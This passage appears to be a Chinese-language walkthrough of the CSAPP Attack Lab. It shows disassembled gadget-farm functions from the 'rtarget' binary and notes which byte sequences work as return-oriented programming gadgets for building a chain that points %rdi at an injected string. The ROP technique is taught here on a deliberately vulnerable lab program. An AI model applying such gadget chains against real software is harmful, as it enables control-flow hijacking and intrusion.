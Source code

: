 ```
  401a83:	8d 87 08 89 e0 90    	lea    -0x6f1f76f8(%rdi),%eax
  401a89:	c3                   	retq

0000000000401a97 <setval_181>: // 不可取，c2不是单独指令
  401a97:	c7 07 48 89 e0 c2    	movl   $0xc2e08948,(%rdi)
  401a9d:	c3                   	retq

0000000000401aab <setval_350>:
  401aab:	c7 07 48 89 e0 90    	movl   $0x90e08948,(%rdi)
  401ab1:	c3                   	retq
```

那么之前的过程就变为：

```
1. rax = rsp(48 89 e0)
2. rsi = 偏移量
3. rdi = rax(<setval_210> 中的 48 89 c7)
4. rax = rdi + rsi（lea指令）
5. rdi = rax(<setval_210> 中的 48 89 c7)
6. ret
7. 将攻击字符串放在%rsp + offset 处
```

我们找一下以`%rsi`和`%rdi`为目的寄存器的指令。

以`%rdi`为目的寄存器的指令编码有`(48)* 89 (c|d|e|f)(7|f)`，在`rtarget`中可能的代码段如下：

```
00000000004019a0 <addval_273>: // 不可取，c3不是指令
  4019a0:	8d 87 48 89 c7 c3    	lea    -0x3c3876b8(%rdi),%eax
  4019a6:	c3                   	retq

00000000004019ae <setval_237>: // 不可取，c7不是指令
  4019ae:	c7 07 48 89 c7 c7    	movl   $0xc7c78948,(%rdi)
  4019b4:	c3                   	retq

00000000004019c3 <setval_426>: // 是他！是他！就是他！
  4019c3:	c7 07 48 89 c7 90    	movl   $0x90c78948,(%rdi)
  4019c9:	c3                   	retq
```

以`%rsi/%esi`为目的寄存器的指令编码有`(48)* 89 (c|d|e|f)(6|e)`。在`rtarget`中可能的代码段如下：

```
00000000004019e8 <addval_113>: // 不可取，78 c9不是指令
  4019e8:	8d 87 89 ce 78 c9    	lea    -0x36873177(%rdi),%eax
  4019ee:	c3                   	retq

0000000000401a11 <addval_436>: // 可以是他！
  401a11:	8d 87 89 ce 90 90    	lea    -0x6f6f3177(%rdi),%eax
  401a17:	c3                   	retq

0000000000401a25 <addval_187>: // 可以是他，38 c0 是cmpb %al指令，不影响结果
  401a25:	8d 87 89 ce 38 c0    	lea    -0x3fc73177(%rdi),%eax
  401a2b:	c3                   	retq

0000000000401a61 <addval_404>: // 不可取，92 c3不是指令
  401a61:	8d 87 89 ce 92 c3    	lea    -0x3c6d3177(%rdi),%eax
  401a67:	c3                   	retq
```
